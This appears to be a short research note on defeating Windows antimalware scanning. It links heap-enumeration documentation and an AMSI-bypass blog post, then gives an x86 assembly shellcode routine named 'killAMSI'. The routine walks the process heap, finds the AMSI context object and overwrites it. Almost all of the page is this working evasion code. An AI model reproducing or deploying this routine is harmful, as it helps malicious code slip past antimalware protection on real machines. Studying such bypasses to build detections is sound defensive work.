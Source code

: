
## search for context object in heap

https://docs.microsoft.com/en-us/windows/win32/memory/enumerating-a-heap

https://docs.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapwalk

https://codewhitesec.blogspot.com/2019/07/heap-based-amsi-bypass-in-vba.html

https://gist.github.com/DanShaqFu/5599eecce8c7428779aa7537e4707196
```powershell
killAMSI proc
	push ebp
	mov ebp, esp
	; allocate space for our phe
	sub esp, sizeof PROCESS_HEAP_ENTRY

	push edx
	push esi

	; fetch first heap of process
	lea edx, [ebx].ShellCodeEnvironment.heapHandle
	push edx
	push 1 ; only one heap handle please
	call [ebx].ShellCodeEnvironment.getProcessHeapsAddress

; initialize lpData to zero for the first time
	lea esi,  [ebp -  sizeof PROCESS_HEAP_ENTRY].PROCESS_HEAP_ENTRY
	xor eax, eax
	mov [esi], eax
; now iterate over the heap via HeapWalk

doTheMoonWalk:
	push esi
	push [ebx].ShellCodeEnvironment.heapHandle
	call [ebx].ShellCodeEnvironment.heapWalkAddress
	or eax, eax
	jz noAMSIFound
	; fetch flags from PHE
	mov al, byte ptr [esi].PROCESS_HEAP_ENTRY.wFlags
	; check if this an allocated area
	and al, 14h
	jz doTheMoonWalk
	; allocated block -> check data
	mov edx, dword ptr [esi].PROCESS_HEAP_ENTRY.lpData
	cmp dword ptr [edx], 049534d41h ; "AMSI"
	jnz doTheMoonWalk
	; we found the AMSI context --> destroy it
	int3
	mov eax, 0deadbeefh	
	mov [edx], eax
noAMSIfound:	
	pop esi
	pop edx
	; restore stack pointer
	mov esp, ebp
  	pop ebp
	ret

killAMSI endp
```
